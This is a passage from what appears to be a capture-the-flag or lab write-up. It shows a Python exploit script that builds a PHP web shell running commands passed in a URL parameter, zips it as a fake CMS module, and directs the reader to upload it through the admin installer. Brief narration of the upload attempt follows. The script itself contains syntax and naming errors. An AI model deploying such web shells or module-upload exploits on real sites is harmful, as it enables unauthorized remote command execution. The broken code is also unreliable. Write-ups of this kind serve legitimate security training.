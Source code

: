 ```python
	    file.write(info.content)
	  
	  shell_content =  """
    <html>
    <body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="TEXT" name="cmd" autofocus id="cmd" size="80">
    <input type="SUBMIT" value="Execute">
    </form>
    <pre>
    <?php
    if(isset($_GET['cmd']))
    {
    system($_GET['cmd']);
    }
    ?>
    </pre>
    </body>
    </html>
    """
    shell_php_path = "shell/shell.php"
    with open(shell_php_path, "w") as file:
	    file.write(shell_content)
	  return shell_info_path, shell_php_path

def create_zip(info_path, php_path):
	zip_filename = "shell.zip"
	with zipfile.Zipfile(zip_filename, "w") as zipf:
		zipf.write(info_path, arcname='shell/shell.info')
		zipf.write(php_path, arcname='shell/shell.php')

def main(url):
	print("Remote command execution exploit")
	print("Evil module generating...")
	
	info_path, php_path = create_files()
	zip_filename = create_zip(info_path, php_path)
	
	print("Evil module generated!", zip_filename)
	print("Go to " + url + "/admin/modules/install and upload the " +
          zip_filename + " for Manual Installation.")
    time.sleep(2)

    print("Your shell address:", url + "/modules/shell/shell.php")
if __name__ == "__main__":
	if len(sys.argv) < 2
		print("Usage: python script.py [url]")
	else:
		main(sys.argv[1])
```
<br/><br/>
![image.png]({{ '/assets/images/ffa4a87e-38af-497f-af3d-e8e50cfff51d-export-1b877186-ee75-440e-b2af-33e8bf6b294e/ffa4a87e-38af-497f-af3d-e8e50cfff51d-export-1b877186-ee75-440e-b2af-33e8bf6b294e_image_15.png' | relative_url }})
<br/><br/>
The zip file were generated and it indicates to go ourselves to install the module to be aware of what is happening. In this dashboard section we find a warning announcing that zip files are not allowed due to its extension is not loaded
<br/><br/>
![image.png]({{ '/assets/images/ffa4a87e-38af-497f-af3d-e8e50cfff51d-export-1b877186-ee75-440e-b2af-33e8bf6b294e/ffa4a87e-38af-497f-af3d-e8e50cfff51d-export-1b877186-ee75-440e-b2af-33e8bf6b294e_image_16.png' | relative_url }})
<br/><br/>
Try with manual installation
<br/><br/>